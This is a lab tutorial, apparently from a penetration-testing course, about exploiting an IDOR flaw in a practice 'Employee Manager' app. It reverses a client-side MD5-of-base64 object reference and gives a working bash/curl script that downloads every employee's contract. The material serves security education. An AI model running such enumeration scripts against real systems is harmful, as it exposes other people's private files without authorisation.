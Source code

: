 # Bypassing Encoded References

In the previous section, we saw an example of an IDOR that uses employee uids in clear text, making it easy to enumerate. In some cases, web applications make hashes or encode their object references, making enumeration more difficult, but it may still be possible.

Let's go back to the `Employee Manager` web application to test the `Contracts` functionality:

<figure><img src="../../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption><p>http://SERVER_IP:PORT/contracts.php</p></figcaption></figure>

If we click on the `Employment_contract.pdf` file, it starts downloading the file. The intercepted request in Burp looks as follows:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that it is sending a `POST` request to `download.php` with the following data:

```php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```

Using a `download.php` script to download files is a common practice to avoid directly linking to files, as that may be exploitable with multiple web attacks. In this case, the web application is not sending the direct reference in cleartext but appears to be hashing it in an `md5` format. Hashes are one-way functions, so we cannot decode them to see their original values.

We can attempt to hash various values, like `uid`, `username`, `filename`, and many others, and see if any of their `md5` hashes match the above value. If we find a match, then we can replicate it for other users and collect their files. For example, let's try to compare the `md5` hash of our `uid`, and see if it matches the above hash:

```shell-session
$ echo -n 1 | md5sum

c4ca4238a0b923820dcc509a6f75849b -
```

Unfortunately, the hashes do not match. We can attempt this with various other fields, but none of them matches our hash. In advanced cases, we may also utilize `Burp Comparer` and fuzz various values and then compare each to our hash to see if we find any matches. In this case, the `md5` hash could be for a unique value or a combination of values, which would be very difficult to predict, making this direct reference a `Secure Direct Object Reference`. However, there's one fatal flaw in this web application.

***

## Function Disclosure

As most modern web applications are developed using JavaScript frameworks, like `Angular`, `React`, or `Vue.js`, many web developers may make the mistake of performing sensitive functions on the front-end, which would expose them to attackers. For example, if the above hash was being calculated on the front-end, we can study the function and then replicate what it's doing to calculate the same hash. Luckily for us, this is precisely the case in this web application.

If we take a look at the link in the source code, we see that it is calling a JavaScript function with `javascript:downloadContract('1')`. Looking at the `downloadContract()` function in the source code, we see the following:

```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

This function appears to be sending a `POST` request with the `contract` parameter, which is what we saw above. The value it is sending is an `md5` hash using the `CryptoJS` library, which also matches the request we saw earlier. So, the only thing left to see is what value is being hashed.

In this case, the value being hashed is `btoa(uid)`, which is the `base64` encoded string of the `uid` variable, which is an input argument for the function. Going back to the earlier link where the function was called, we see it calling `downloadContract('1')`. So, the final value being used in the `POST` request is the `base64` encoded string of `1`, which was then `md5` hashed.

We can test this by `base64` encoding our `uid=1`, and then hashing it with `md5`, as follows:

```shell-session
$ echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```

{% hint style="info" %}
**Tip:** We are using the `-n` flag with `echo`, and the `-w 0` flag with `base64`, to avoid adding newlines, in order to be able to calculate the `md5` hash of the same value, without hashing newlines, as that would change the final `md5` hash.
{% endhint %}

As we can see, this hash matches the hash in our request, meaning that we have successfully reversed the hashing technique used on the object references, turning them into IDOR's. With that, we can begin enumerating other employees' contracts using the same hashing method we used above. `Before continuing, try to write a script similar to what we used in the previous section to enumerate all contracts`.

***

## Mass Enumeration

Once again, let us write a simple bash script to retrieve all employee contracts. More often than not, this is the easiest and most efficient method of enumerating data and files through IDOR vulnerabilities. In more advanced cases, we may utilize tools like `Burp Intruder` or `ZAP Fuzzer`, but a simple bash script should be the best course for our exercise.

We can start by calculating the hash for each of the first ten employees using the same previous command while using `tr -d` to remove the trailing `-` characters, as follows:

```shell-session
$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd
```

Next, we can make a `POST` request on `download.php` with each of the above hashes as the `contract` value, which should give us our final script:

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

With that, we can run the script, and it should download all contracts for employees 1-10:

```shell-session
$ bash ./exploit.sh
$ ls -1

contract_006d1236aee3f92b8322299796ba1989.pdf
contract_0b24df25fe628797b3a50ae0724d2730.pdf
contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contract_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contract_5d4aace023dc088767b4e08c79415dcd.pdf
contract_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contract_b523ff8d1ced96cef9c86492e790c2fb.pdf
contract_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contract_d477819d240e7d3dd9499ed8d23e7158.pdf
contract_f7947d50da7a043693a592b4db43b0a1.pdf
```

As we can see, because we could reverse the hashing technique used on the object references, we can now successfully exploit the IDOR vulnerability to retrieve all other users' contracts.
